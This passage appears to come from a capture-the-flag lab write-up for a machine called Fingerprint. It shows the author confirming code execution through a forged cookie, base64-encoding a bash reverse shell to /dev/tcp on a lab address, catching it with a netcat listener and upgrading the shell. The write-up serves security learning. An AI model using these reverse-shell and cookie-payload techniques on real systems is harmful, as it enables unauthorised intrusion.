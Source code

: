 On adding that cookie to Firefox, when I refresh the page:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:26:38.374336 IP 10.10.10.141 > 10.10.14.6: ICMP echo request, id 50182, seq 1, length 64
    13:26:38.374362 IP 10.10.14.6 > 10.10.10.141: ICMP echo reply, id 50182, seq 1, length 64



#### Shell

I'll encode a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in base64 to get rid
of special characters:



    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==



I'll update the payload in my Java, and rebuild it. When I run it, I get
a new base64 encoded `UserProfileStorage` object. I'll paste that into
JWT.io to update the cookie, and get a new one, which I can add to
Firefox. On refreshing, I get a shell:



    oxdf@hacky$ nc -lnvp 443                                          
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.141 54908
    bash: cannot set terminal process group (1161): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$



I'll use the standard `script` trick to upgrade the shell:



    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ 



## Shell as john

### Enumeration
